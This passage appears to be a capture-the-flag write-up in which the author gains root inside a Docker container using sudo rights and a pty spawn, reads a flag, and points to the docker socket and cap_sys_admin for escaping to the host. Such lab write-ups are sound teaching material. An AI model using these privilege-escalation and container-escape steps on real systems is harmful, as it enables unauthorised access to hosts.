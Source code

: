 ```bash
sudo -l
Matching Defaults entries for admin on 6b364d3940e6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on 6b364d3940e6:
    (ALL) ALL
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /usr/bin/nsenter
```

So we are basically root.

```bash
# Since there was no pseudoterminal . So used the following command to get one
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm

To get root
$ sudo /bin/sh
#
```

```bash
root@6b364d3940e6:~# ls -la
ls -la
total 24
drwx------ 1 root root 4096 Feb 22 16:37 .
drwxr-xr-x 1 root root 4096 Feb 22 16:42 ..
lrwxrwxrwx 1 root root    9 Feb 22 16:37 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
drwxr-xr-x 2 root root 4096 Feb 22 16:37 .ssh
-rw-r--r-- 1 root root   38 Feb 22 16:37 containter1_flag.txt
```

We got the flag.

## Escalating privileges

There is a docker socket inside the container which can be used to get access to host machine. Also it has `cap_sys_admin` capability set which can be used to read host system files

```bash
# capsh --print | grep sys_admin
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
```

Used the second approach to get shell. More details about this approach is linked [here](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.).
